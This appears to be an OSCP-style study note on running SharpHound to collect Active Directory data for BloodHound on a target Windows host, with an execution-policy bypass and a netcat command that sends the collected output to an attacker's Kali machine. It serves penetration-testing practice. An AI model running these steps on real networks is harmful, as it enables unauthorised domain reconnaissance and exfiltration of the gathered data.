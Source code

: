 ## Sharphound Github Repo: 
https://github.com/BloodHoundAD/SharpHound

In Kali: sudo start neo4j && bloodhound

To install in Kali: sudo apt install -y neo4j && sudo apt install bloodhound -y

## Documentation:
https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html

https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html

### Step:
Download file "https://github.com/hackersupcoming/My_OSCP_tools/blob/main/Sharphound/sharphound.ps1" in target system

powershell -ep bypass

Import-Module .\sharphound.ps1

Invoke-Bloodhound

Get-Help Invoke-Bloodhound  ## To check commands

Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\username\Desktop\ -OutputPrefix "output"

### To Tranfer file from windows to kali:
In Windows: nc.exe -w 3 kali-ip 443 < file-to-transfer

In Kali: nc -lvp 443 > output-filename

